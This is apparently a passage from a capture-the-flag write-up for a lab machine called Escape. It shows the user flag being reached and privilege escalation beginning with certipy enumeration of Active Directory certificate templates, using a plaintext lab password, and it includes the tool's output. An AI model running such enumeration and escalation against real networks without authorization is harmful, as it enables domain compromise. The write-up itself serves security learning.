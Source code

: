 ![connected usin Ryan.Cooper user](../../assets/blog/images/escape/ryan_cooper.png)
User flag is on Desktop ✅
![user flag obtained](../../assets/blog/images/escape/user_flag.png)

Okay. It's time for privilege escalation.I used [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS), but nothing came up.
I followed _windows hardening_ chapter on [Hacktricks](https://book.hacktricks.xyz/windows-hardening/) and I found vulnerabilities from [ADCS chapter](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation).

First I used certipy to enumerate certificates

```
└─$ certipy find -u Ryan.Cooper -p NuclearMosquito3 -dc-ip 10.10.11.202
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'sequel-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'sequel-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'sequel-DC-CA' via RRP
[*] Got CA configuration for 'sequel-DC-CA'
[*] Saved BloodHound data to '20230405012527_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20230405012527_Certipy.txt'
[*] Saved JSON output to '20230405012527_Certipy.json'
```
